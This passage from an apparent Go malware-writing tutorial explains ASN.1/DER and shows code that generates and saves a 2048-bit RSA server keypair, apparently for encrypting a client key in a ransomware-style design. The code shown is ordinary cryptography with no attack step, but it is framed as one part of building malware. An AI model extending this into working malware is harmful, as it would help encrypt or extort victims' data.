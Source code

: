 **ASN.1** - [Abstract Syntax Notation 1](https://en.wikipedia.org/wiki/ASN.1) is an interface description format for defining data structures.

**DER** - [Distinguished Encoding Rules](https://en.wikipedia.org/wiki/X.690#DER_encoding) is a way to encode ASN.1 defined data. Described in the `X.690` standard, `nice0`.

## Key Generation

Let's get to it then! We'll be generating a keypair, writing our RSA / PKCS1 keys out in an ASN.1 DER encoded format. For this one we're upping the bits to 2k48 because we'll be encrypting the client key (1k24 bits) and from our formula `(2048 bits - (32 bytes * 2 * 8 bits/byte) - 2) = 1534 bits`, AKA enough space to fit a 1024 bit key. We could go as low as a 1538 bit server key but using something that isn't a power of 2 would offend the divine numerology and our malware would no longer be blessed.

First, we don't want to overwrite our server keypair so we're going to check if those files exist.

```golang
	_, errPub := os.Stat("key.pub")
	_, errPrv := os.Stat("key.prv")

	if errPub == nil && errPrv == nil {
		pub, err := ioutil.ReadFile("key.pub")
		if err != nil {
			log.Fatal(err)
		}
		printBytes(pub)
		log.Fatal("keypair exists, will not overwrite")	
	}
```

Following that, we generate a key, get the DER encoded bytes of the public key, write them to a file, ditto for the private key.

```golang
	privateKey, err := rsa.GenerateKey(rand.Reader, 2048)
	if err != nil {
		log.Fatal(err)
	}

	pub := x509.MarshalPKCS1PublicKey(&privateKey.PublicKey)
	err = ioutil.WriteFile("key.pub", pub, 0644)
	if err != nil {
		log.Fatal(err)
	}

	prv := x509.MarshalPKCS1PrivateKey(privateKey)
	err = ioutil.WriteFile("key.prv", prv, 0644)
	if err != nil {
		log.Fatal(err)
	}
```

We also add a cute little `printBytes()` function to pretty print our public key in a way we can just paste into our client. Note, we also print the bytes when the keys exist because we might want to reprint those.
